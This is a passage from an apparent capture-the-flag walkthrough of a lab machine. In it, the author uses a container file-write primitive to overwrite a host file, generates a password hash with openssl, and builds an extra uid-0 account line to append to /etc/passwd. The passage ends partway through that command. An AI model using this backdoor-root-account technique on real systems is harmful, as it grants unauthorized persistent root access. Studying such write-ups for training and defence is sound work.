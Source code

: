 I can verify that the `/etc/hostname` file on the host is overwritten from my shell as saul:

```

saul@talkative:/dev/shm$ cat /etc/hostname 
a
lkative

```

Only the first two bytes of the original file are overwritten, which is the size of the file I used.

#### Shell

I’ll use the file write to add another root user to the `/etc/passwd` file. I’ll generate a hash for the password “0xdf”:

```

oxdf@hacky$ openssl passwd -1 0xdf
$1$FWS43Ezm$fKjubC8uKDJ9W9dmD78QP0

```

Now I’ll create a `passwd` line from that, with the user name oxdf, the password hash from above, the user and group ids of 0:

```

oxdf:$1$FWS43Ezm$fKjubC8uKDJ9W9dmD78QP0:0:0:pwned:/root:/bin/bash

```

I’ll recreate the `passwd` file from the host (read by saul) in the container, with the extra line on the end:

```

root@c150397ccd63:~# echo 'root:x:0:0:root:/root:/bin/bash
> daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin                 
> bin:x:2:2:bin:/bin:/usr/sbin/nologin            
> sys:x:3:3:sys:/dev:/usr/sbin/nologin       
> sync:x:4:65534:sync:/bin:/bin/sync                             
> games:x:5:60:games:/usr/games:/usr/sbin/nologin
> man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
> lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
> mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
> news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
> uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
> proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
> www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
> backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
> list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
> irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
> gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
> nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
> systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
> systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
> systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
> messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
> syslog:x:104:110::/home/syslog:/usr/sbin/nologin
> _apt:x:105:65534::/nonexistent:/usr/sbin/nologin
> tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
> uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
> tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
> landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
> pollinate:x:110:1::/var/cache/pollinate:/bin/false
> usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```